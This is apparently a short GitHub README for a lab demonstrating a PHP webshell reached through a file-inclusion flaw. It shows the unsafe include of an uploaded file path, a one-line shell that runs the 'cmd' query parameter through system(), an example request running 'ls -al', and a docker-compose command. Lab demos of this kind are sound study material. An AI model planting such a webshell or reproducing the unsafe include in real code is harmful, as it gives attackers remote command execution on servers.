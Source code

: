 # php webshell by include
### 1) summary
Executes the file passed as a parameter of the include function.

When the php file is delivered, it is executed.
```
include($uploaded_file_path);
```

### 2) code
When the following code is executed by the include function, 
```php
<?php
    echo system($_GET["cmd"]);
?>
```
you can execute a Linux command by passing cmd as a query parameter.
```
https://example.com?file=asfdbwr?cmd=ls -al;
```

### 3) How to run
Execute the following command in the location where the docker-compose.yml file is located
```
docker-compose up --build
```